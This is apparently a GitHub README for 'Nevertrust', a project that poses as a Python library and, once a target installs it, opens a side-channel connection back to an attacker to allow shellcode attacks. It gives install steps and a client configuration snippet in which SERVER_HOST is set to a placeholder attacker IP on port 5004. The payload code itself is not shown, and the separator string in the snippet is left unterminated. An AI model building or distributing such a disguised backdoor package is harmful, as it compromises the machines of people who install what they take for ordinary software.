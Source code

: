 # Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

first you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5004
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run
```
pip install socket tqdm 
```

![Uploading image.png…]()

